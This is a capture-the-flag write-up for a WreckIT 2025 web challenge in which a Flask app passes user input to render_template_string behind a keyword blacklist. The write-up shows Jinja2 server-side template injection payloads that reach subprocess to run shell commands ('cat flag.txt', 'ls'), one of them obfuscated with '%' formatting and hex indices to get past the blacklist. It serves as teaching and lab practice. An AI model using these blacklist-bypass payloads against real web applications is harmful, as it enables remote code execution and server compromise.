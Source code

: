 ```yaml
---
description: '[Solved] A white box web exploitation CTF challenge from WreckIT 2025'
---
```


# \[Web] Safe Template

## TL;DR

* We have a website that has SSTI but with big blacklist: no dangerous keyword like config, import; the usual.
* \[], '", % is not blacklist so we can bypass any keyword blacklist, () is not blacklisted so we can call function, \[digit] is blacklisted but can be bypassed using hex like so \[0x1].
* Just make a typical payload using the above bypass.
* Profit

Flag: WRECKIT60{SSTI?\_ululala\_88efdbcc98eefdacea1344}

## Description

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Overview

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We are given a website that takes an input and then renders it in the website.&#x20;

Looking at the source code,

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We see that the rendering uses render\_template\_string() which is susceptible to SSTI attacks. But common attack payload is blocked by the following blacklist,&#x20;

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We can see that it quite a bit of blacklist: no dangerous keyword, no +, no \[digit], no double underscore (but single undersocre is allowed), and so on.&#x20;

That is all the website has to offer. Its really setup to be an SSTI Challenge



## Solution

There is an SSTI-susceptible input and there is a blacklist sanitization. So obviously I try to bypass the blacklist and fortunately It's relatively simple to do just that.&#x20;

The fact that \[] is not blacklisted already opens up a whole cans of payloads. We can bypass those keywords blacklist by doing string concatenation. How to do string concat if + is blacklisted? Use formatting with % like so:

```
{{''['_%s%s' % ('_class_','_')]}}
```

With that we can already have access to common attack payloads. One of them is this one from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md),&#x20;

```
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

We can just convert it to avoid the blacklist and makes it like the following working payload

<pre class="language-python"><code class="lang-python"><strong>{{''['%s%s' % ('req', 'uest')]{{''['_%s%s'%('_class_','_')]['_%s%s'%('_mro_','_')][0x1]['_%s%s'%('_subclasses_','_')]()[0x162]('ls',shell=True,stdout=-1).communicate()[0x0].strip()}}}}
</strong></code></pre>

We need to use hex for the index of the subclasses because \[digit] is blocked but because hex has an 0x prefix it doesnt count as a digit and therefore not get blacklisted.&#x20;

Now we just send our payload to get the flag at /flag.txt and we're done.&#x20;

## Links

Source Code

{% embed url="https://github.com/BoredAngel/CTFs-Writeup/tree/main/2025/Wreckit/web/safe_template" %}

References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md" %}
